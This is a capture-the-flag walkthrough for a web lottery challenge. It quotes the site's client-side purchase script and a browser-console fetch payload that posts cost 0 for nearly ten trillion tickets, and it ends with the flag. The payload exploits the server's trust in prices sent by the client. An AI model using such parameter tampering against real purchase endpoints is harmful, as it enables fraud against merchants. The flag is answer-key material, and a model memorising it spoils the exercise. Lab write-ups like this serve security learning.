 # LET'S GO GAMBLING Walkthrough
In this challenge, we are given a web environment that simulates a lottery drawing. We can buy tickets, but it is a fraction of the total tickets in each drawing. We are asked to audit the site and attempt to win the lottery, most likely by exploiting a vulnerability.

---
# Q1 - 100 Points
#### What is the flag obtained after winning the lottery?

Whereas I needed a hint on the easy bank challenge, I did not on this one. Interesting.

First, I navigated to `/robots.txt` and attempted to access the path it specified to no avail. Moving forward I will perform what I consider to be the routine tasks.

I looked at the HTML source code for anything that may be of interest, namely a javascript file that contains the logic for drawing the tickets. I found `/static/js/main.js`.

After navigating to this, we get this output:

```javascript
$(document).ready(function() {
  var session;
  var interval;

  $('#purchase').on('click', function(e) {
    if (!session) {
      window.alert('loading, please wait');
      return;
    }
    e.preventDefault();
    var box = $('#num-purchase');
    var tickets = parseInt(box.val()) || 0;
    box.val('0');

    if (session.money >= session.cost * tickets) {
      $.ajax({
        method : 'POST',
        url : '/purchase', 
        data : JSON.stringify({
        cost : session.cost * tickets,
        tickets : tickets
        }),
        dataType : 'json',
        contentType : 'application/json',
        complete: getUpdate,
      });
    } else {
      alert('You do not have enough money.');
    }
  });
```

This 100% caught my eye. There is a small if statement that checks if the amount of money we input is more than what we have. If not, it submits a post request to the `/purchase` endpoint with some data. How about we just make a post request ourselves?

Open up dev tools (Ctrl + Shift + I) and go to the console. I made a post with the following payload:

```javascript
fetch('/purchase', {
  method: 'POST',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify({ cost: 0, tickets: 9999999999999 })
});
```

And it worked! We now own about ten trillion tickets and are likely to win. The flag appears on the screen.
#### Answer:
`SKY-PEPE-3502`

---
# Conclusion

I am very glad that I needed no hints or walkthroughs this time, YIPPEE. 